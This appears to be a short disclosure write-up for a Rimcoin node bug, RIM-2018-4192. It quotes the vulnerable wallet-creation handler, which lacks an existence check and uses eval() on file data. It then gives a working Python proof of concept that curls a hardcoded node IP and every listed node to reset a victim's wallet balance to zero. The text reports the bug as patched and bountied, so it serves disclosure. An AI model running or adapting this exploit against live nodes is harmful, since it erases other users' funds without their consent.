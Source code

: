 # RIM-2018-4192

RIM-2018-4192 is a bug that was actually really simple, SCARILY simple, and would erase ANYONE's funds, without their consent in any way.

The bug was in this source:

```python
elif c=="add_rc_wallet":
    BALANCES=open("balance","r").read() # get file
    BALANCES=eval(BALANCES) # evaluate
    BALANCEW=open("balance","w") # open
    BALANCES[args[0]]=0 # add new wallet
    BALANCEW.write(str(BALANCES)) # write
    BALANCEW.close() # close
    IPS=open("ip","r").read() # open id file
    IPS=eval(IPS) # evaluate
    IPS[args[0]]=ip
    IP=open('ip','w')
    IP.write(str(IPS))
    IP.close()
```

The bug is that it doesn't check if the wallet already exists. 

So here is what a sample PoC would look like:

```python
import subprocess,sys,os

contact_node="67.241.245.218:8080"
nodes=eval(subprocess.check_output("curl "+contact_node+"/rq_node"))

for j in nodes:
    print("New target node is "+j)
    os.system("curl "+j+"/add_node_wallet*"+sys.argv[1])
print("Contacting OG node - "+contact_node)
os.system("curl "+contact_node+"/add_node_wallet*"+sys.argv[1])

print("""FUND OVERRIDING DUE TO NODE CONTACT BUG (RIM-2018-4192)

- BY IHATERA1N, 2018. 
THE RIMCOIN WALLET ADDRESS """+sys.argv[1]+""" HAS BEEN EMPTIED. 

¯\_(ツ)_/¯""")
```

Of course, we have already patched this bug on our main node. 

Note:
Bug discovered and PoC written, and write-up created by iHateRa1n; the creator of Rimcoin! 
He was payed 75 RC for this discovery. 
